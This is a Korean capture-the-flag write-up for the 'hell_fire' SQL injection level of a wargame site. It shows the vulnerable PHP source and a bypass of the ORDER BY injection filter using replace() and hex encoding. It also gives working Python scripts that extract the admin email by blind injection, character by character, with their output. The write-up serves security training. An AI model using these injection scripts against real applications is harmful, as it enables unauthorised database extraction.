 # hell_fire

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- GET 파라미터 `order`을 받고, 쿼리 속 마지막 `order by`뒤에 붙인다.
- 쿼리 결과를 테이블로 보여주는데, admin의 email은 공개하지 않는다.
- 정확한 admin email값을 알아내면 해결된다.   

## 3. Solution
`order by`에 함수를 넣을 수 있음을 이용하였다.   
&rarr; 값을 원하는 대로 변경 후, 비교가능하다.   

rubiya email값을 하나씩 바꿔보며 한 문자씩 찾아보자.   
`.`, `_`등 email값 전달에 제약이 있으므로, hex값으로 우회하여 보냈다.   
 

이용한 함수는 위 두개이다.
- length
- replace   
&rarr; replace(컬럼,바꿀값,바뀔값)   


admin과 rubiya가 표에 정렬되는 순서로 blind-sqli를 진행하였다.
mysql은 기본적으로 ascii값에 의거 정렬하기에 찾기 수훨했다.
&rarr; 이따 다시 다루겠지만, 아쉽게도 대소문자는 기본적으로 무시한다.



#### a. 길이 구하기
변수명 | 값
---|---
`order` | length(replace(email,`0x72756269796138303540676d61696c2e636d`,`!!!!`))   

>    replace의 두 번째 인자는 `rubiya805@gmail.cm`를 hex값변환 한 것이다.   
    세 번째 인자 `!`는 점차 개수를 늘려가며 admin email의 길이와 비교하였다.     
    

```python
import requests
import binascii

cookie = {'PHPSESSID' : '~~~~'}

def str2hex(string_1):
    return binascii.hexlify(string_1.encode('utf-8')).decode('utf-8')



rubiya_email = "rubiya805@gmail.cm"
for i in range(1,101):
    url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php?\
            order=length(replace(email,0x%s,\'%s\'))" % (str2hex(rubiya_email), '!'*i)
    res = requests.get(url, cookies=cookie)
    
    if "<tr><td>admin</td><td>**************</td><td>200</td></tr><tr><td>rubiya</td><td>rubiya805@gmail.cm</td><td>100</td></tr>" in res.text:
        email_len = i-1
        print("Length of pw : %d" % email_len)
        break
```   

>    실행 결과는 다음과 같다.   

```
Length of pw : 28
```   


#### b. 값 구하기
변수명 | 값
---|---
`order` | replace(email,`0x72756269796138303540676d61696c2e636d`,`admin_email...`)   

>    마찬가지로, `replace`를 이용하여 하나하나 비교하였다.   
    정렬되는 순서로 판단하였다.   
    
    구체적으로 설명하자면 rubiya email의 아스키값을 하나하나 늘려가며 admin email이 먼저 정렬되는 순간을 노렸다.   
    
    `a. 길이 구하기` 코드 아래에 붙여주었다.
    
```python
tmp_admin_email = ""
for i in range(email_len):
    for j in range(32,1000):
        hex_rubiya = str2hex(tmp_admin_email+chr(j))
        url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php?\
                order=replace(email,0x%s,0x%s)" % (str2hex(rubiya_email), hex_rubiya)
        res = requests.get(url, cookies=cookie)

        if "<tr><td>admin</td><td>**************</td><td>200</td></tr><tr><td>rubiya</td><td>rubiya805@gmail.cm</td><td>100</td></tr>" in res.text:
            tmp_admin_email += chr(j-1)
            print("email(%d) : %s" % (i+1, tmp_admin_email))
            break
```   

>    실행 결과는 다음과 같다.   

```
Length of pw : 28
email(1) : A
email(2) : AD
email(3) : ADM
email(4) : ADMI
email(5) : ADMIN
email(6) : ADMIN_
email(7) : ADMIN_S
email(8) : ADMIN_SE
email(9) : ADMIN_SEC
email(10) : ADMIN_SECU
email(11) : ADMIN_SECUR
email(12) : ADMIN_SECURE
email(13) : ADMIN_SECURE_
email(14) : ADMIN_SECURE_E
email(15) : ADMIN_SECURE_EM
email(16) : ADMIN_SECURE_EMA
email(17) : ADMIN_SECURE_EMAI
email(18) : ADMIN_SECURE_EMAIL
email(19) : ADMIN_SECURE_EMAIL@
email(20) : ADMIN_SECURE_EMAIL@E
email(21) : ADMIN_SECURE_EMAIL@EM
email(22) : ADMIN_SECURE_EMAIL@EMA
email(23) : ADMIN_SECURE_EMAIL@EMAI
email(24) : ADMIN_SECURE_EMAIL@EMAI1
email(25) : ADMIN_SECURE_EMAIL@EMAI1.
email(26) : ADMIN_SECURE_EMAIL@EMAI1.C
email(27) : ADMIN_SECURE_EMAIL@EMAI1.CO
email(28) : ADMIN_SECURE_EMAIL@EMAI1.COM
```   


#### c. 대소문자 판별
변수명 | 값
---|---
`order` | replace(email,`0x72756269796138303540676d61696c2e636d`,`admin email의 upper`)   

>    `b. 값 구하기`에서 나온 값을 입력해도 문제가 해결되지 않을것이다.   
    그 이유는 아까 언급했듯이, order by는 기본적으로 대소문자 상관없이 정렬하기 때문이다.    
    
    데이터베이스 속 `admin - rubiya` 순으로 저장되어있다.   
    이를 이용하여 rubiya email을 `b. 값 구하기`에서 나온값의 `upper case로 세팅`해준 후, 정렬한다면   
    다음 두 가지의 경우가 발생할 수 있는 것이다.      
    1.admin email이 대문자일 경우 &rarr admin 먼저 정렬
    2.admin email이 소문자일 경우 &rarr rubiya 먼저 정렬   
    
    
    대소문자 구별 부분코드를 최종적으로 붙여 스크립트를 완성하였다.   
    아래는 대소문자 구별 부분코드이다.   
    
```python
final_admin_email = ""
print("-----------------------------------------------")
print("| admin email | ", end="")
for i in range(email_len):
    url = "https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php?\
            order=replace(email,0x%s,0x%s)" % (str2hex(rubiya_email), str2hex(final_admin_email + tmp_admin_email[i].upper()))
    res = requests.get(url, cookies=cookie)
    
    if "<tr><td>admin</td><td>**************</td><td>200</td></tr><tr><td>rubiya</td><td>rubiya805@gmail.cm</td><td>100</td></tr>" in res.text:
        final_admin_email += tmp_admin_email[i].upper()
    
    else:
        final_admin_email += tmp_admin_email[i].lower()
    
    print("%s" % (final_admin_email[i]), end="")
    
print("\n-----------------------------------------------")
```    
>    결과는 다음과 같다.   
```
Length of pw : 28
email(1) : A
email(2) : AD
email(3) : ADM
email(4) : ADMI
email(5) : ADMIN
email(6) : ADMIN_
email(7) : ADMIN_S
email(8) : ADMIN_SE
email(9) : ADMIN_SEC
email(10) : ADMIN_SECU
email(11) : ADMIN_SECUR
email(12) : ADMIN_SECURE
email(13) : ADMIN_SECURE_
email(14) : ADMIN_SECURE_E
email(15) : ADMIN_SECURE_EM
email(16) : ADMIN_SECURE_EMA
email(17) : ADMIN_SECURE_EMAI
email(18) : ADMIN_SECURE_EMAIL
email(19) : ADMIN_SECURE_EMAIL@
email(20) : ADMIN_SECURE_EMAIL@E
email(21) : ADMIN_SECURE_EMAIL@EM
email(22) : ADMIN_SECURE_EMAIL@EMA
email(23) : ADMIN_SECURE_EMAIL@EMAI
email(24) : ADMIN_SECURE_EMAIL@EMAI1
email(25) : ADMIN_SECURE_EMAIL@EMAI1.
email(26) : ADMIN_SECURE_EMAIL@EMAI1.C
email(27) : ADMIN_SECURE_EMAIL@EMAI1.CO
email(28) : ADMIN_SECURE_EMAIL@EMAI1.COM
-----------------------------------------------
| admin email | admin_secure_email@emai1.com
-----------------------------------------------
```   


나온 값, `admin_secure_email@emai1.com`을 GET 파라미터 `email`에 넣어주면 문제가 해결된다.   
변수명 | 값
---|---
`email` | admin_secure_email@emai1.com